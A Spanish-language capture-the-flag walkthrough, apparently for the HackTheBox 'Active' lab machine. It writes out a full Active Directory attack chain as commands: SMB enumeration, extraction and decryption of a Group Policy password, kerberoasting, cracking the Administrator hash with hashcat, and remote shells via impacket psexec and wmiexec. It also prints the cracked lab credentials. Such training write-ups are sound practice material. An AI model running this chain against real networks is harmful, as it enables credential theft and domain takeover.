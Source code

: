 ![Active (1)](https://github.com/user-attachments/assets/a0ee55d3-ffbf-4642-a114-e1aca2f30836)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250313105053](https://github.com/user-attachments/assets/43fe3451-31a8-4d10-bf9b-ab638880287d)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![Pasted image 20250313105216](https://github.com/user-attachments/assets/691c6de4-1102-426b-a453-331ef7769073)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![Pasted image 20250313105324](https://github.com/user-attachments/assets/d9c8b691-10ab-4097-9e7c-e6c6764f03d7)

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

![active etchosts](https://github.com/user-attachments/assets/13591f9d-94c3-4bbe-ad59-c2e98c30f03e)


Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![Pasted image 20250313105631](https://github.com/user-attachments/assets/b0ac3808-30c1-4906-bb42-ea78c529c128)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![Pasted image 20250313105732](https://github.com/user-attachments/assets/a6766483-809e-4362-9980-871fa73e4d44)


active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![Pasted image 20250313110008](https://github.com/user-attachments/assets/445fc4b7-ad78-4b6f-9e18-6d7145aaa9ff)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![Pasted image 20250313110146](https://github.com/user-attachments/assets/36f7f9ba-e4f8-412d-bad0-07a559d358e5)


Y si echamos un vistazo a Groups.xml : 

![Pasted image 20250313112056](https://github.com/user-attachments/assets/b5212019-0655-4aea-8ac4-f692c9609db0)


Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![Pasted image 20250313110557](https://github.com/user-attachments/assets/5912c20f-0c5f-4546-b198-6bdd4d4749f8)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![Pasted image 20250313112339](https://github.com/user-attachments/assets/a5c35665-312e-4765-a205-5eb2844b4152)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![Pasted image 20250313112616](https://github.com/user-attachments/assets/549749d1-e6be-416f-8217-3ebeb729393b)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![Pasted image 20250313113410](https://github.com/user-attachments/assets/b6d57e01-b7de-4d52-9259-0a1bd3610480)


Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
-> Password: GPPstillStandingStrong2k18

![Pasted image 20250313113615](https://github.com/user-attachments/assets/f4706d60-a0de-41cf-9c9a-91cafd9cb652)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![Pasted image 20250313113715](https://github.com/user-attachments/assets/8227a23b-c816-423c-ad2a-4005e2827743)


Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![Pasted image 20250313113850](https://github.com/user-attachments/assets/b2a5f526-064c-4dc2-8aee-580aefedcf44)


Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![Pasted image 20250313114050](https://github.com/user-attachments/assets/59f199dd-b2a9-40a7-bfc7-c3b4a81a97d9)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![Pasted image 20250313114156](https://github.com/user-attachments/assets/1be287e2-09ac-4782-a19a-8cf09a160c3b)


Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114352](https://github.com/user-attachments/assets/2cca26a5-0223-4896-8e68-da09618d474c)


``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114422](https://github.com/user-attachments/assets/30e28b9a-5b7b-40e2-a6b5-2e79a666ea4d)



Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![Pasted image 20250313114638](https://github.com/user-attachments/assets/76f66d12-22bb-4793-83fb-eb4b9e74e767)


Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250313114758](https://github.com/user-attachments/assets/a314fe8e-b238-46cb-b847-ed247098f76e)
